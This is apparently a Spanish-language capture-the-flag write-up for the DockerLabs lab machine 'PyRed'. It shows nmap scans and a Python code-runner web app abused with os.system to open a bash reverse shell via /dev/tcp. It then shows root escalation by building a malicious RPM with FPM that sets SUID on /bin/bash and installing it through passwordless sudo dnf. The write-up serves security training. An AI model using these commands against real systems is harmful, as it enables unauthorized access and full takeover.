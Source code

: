 # PYRED - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina PyRed. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./pyred.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: medio
- Sistema Operativo: linux
- Autor: El Pingüino de Mario

## ESQUEMA

![pyred](https://github.com/user-attachments/assets/b4ff659e-d6c3-44d1-bac7-f19b3e558063)

## ENUMERACIÓN

### conectividad y SO

Primero comprobamos la conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/0cddb4bd-e1b7-4330-9580-62ddbf8f3799)

Recibimos respuesta. El TTL es de 64, indicando que la máquina seguramente use Linux.

### escaneo de puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/3173c5ad-1799-45a7-8248-d511bbcdc495)

#### puertos abiertos

**5000 - TCP - HTTP**

Ahora hacemos un escaneo de versiones y servicios sobre el puerto 5000:

```python
nmap -p5000 -sCV 172.17.0.2 -oN targeted
```

> `-p5000` hacer el escaneo solo sobre los puertos 5000

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/21a7654a-d97d-42fa-b657-f30226ee250a)

### puerto 5000

Gracias al escaneo de nmap, sabemos que este puerto responde a peticiones HTTP, así que ejecutamos `whatweb http://172.17.0.2:5000` para ver las tecnologías que usa el servidor. Vemos que usa Python

Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/19d311ae-96ff-4183-b262-8ff22cd51764)

Parece que es una web para aprender Python, en la que se puede ejecutar código de este. Probamos a ejecutar `print("test)`:

![image](https://github.com/user-attachments/assets/d54812de-71e9-4e78-b914-da0e4c7ed534)

Se ejecuta. Podemos probar a usar la librería `os` para ejecutar el comando `id`:

```python
import os
os.system('id')
```

![image](https://github.com/user-attachments/assets/fb7aba73-62a7-4fa3-80b4-95bf8defaa97)

Se ejecuta correctamente.

## EXPLOTACIÓN

Ahora vamos a intentar ganar acceso a la máquina:

Ejecutamos en local:

```python
nc -nlvp 443
```

Ejecutamos en la web:

```python
import os
os.system("/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1")
```

![image](https://github.com/user-attachments/assets/7a8e5efb-93e6-4441-b6bb-181b0bdbd053)

Y ganamos acceso como el usuario primpi a la máquina.

No podemos hacer el tratamiento de la TTY correctamente, porque no están instalados los comandos `script` y `reset`.

Si ejecutamos `sudo -l`:

![image](https://github.com/user-attachments/assets/4d2a4e4a-c1ae-40af-bf02-04d729052831)

Sale que podemos ejecutar como cualquier usuario, sin poner nuestra contraseña, el binario `/usr/bin/dnf`. DNF es un gestor de paquetes, así que podemos aprovecharnos de esto para instalar `script` y `reset`:

```python
sudo dnf install -y util-linux ncurses
```

Después, hacemos el tratamiento de la TTY:

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS

### root

Sabemos que podemos ejecutar con privilegios de sudo el gestor de paquetes DNF, así que vamos a buscar en [gtfobins](https://gtfobins.github.io/) si se puede escalar privilegios con esto:

![image](https://github.com/user-attachments/assets/72453587-5d11-47be-a3d9-2f4ba08974fb)

Para conseguir ejecutar comandos como root, tenemos que crear un archivo de texto que contenga un comando. Luego crear un paquete a partir de este, con la herramienta FPM. Y finalmente instalar este paquete con DNF usando privilegios de sudo, y de esta forma el comando se ejecuta.

Para instalar fpm ejecutamos:

```python
sudo dnf install -y ruby rubygems rpm-build
```

Y luego:

```python
gem install fpm
```

Ahora para crear el paquete malicioso ejecutamos:

```python
echo 'chmod u+s /bin/bash' > pwn.sh
fpm -n x -s dir -t rpm -a all --before-install pwn.sh pwn.sh
```

Se nos queda un archivo llamado `x-1.0-1.noarch.rpm`. Ahora lo instalamos con DNF:

```python
sudo dnf install -y x-1.0-1.noarch.rpm
```

Y ahora hacemos `ls -l /bin/bash`:

![image](https://github.com/user-attachments/assets/18a2626a-9286-4e0f-9d08-4c47654129ed)

Tiene permisos SUID. Para ganar una bash como root: `bash -p`:

![image](https://github.com/user-attachments/assets/c82dcbde-fbd1-4dcc-919b-ff37c0b8f462)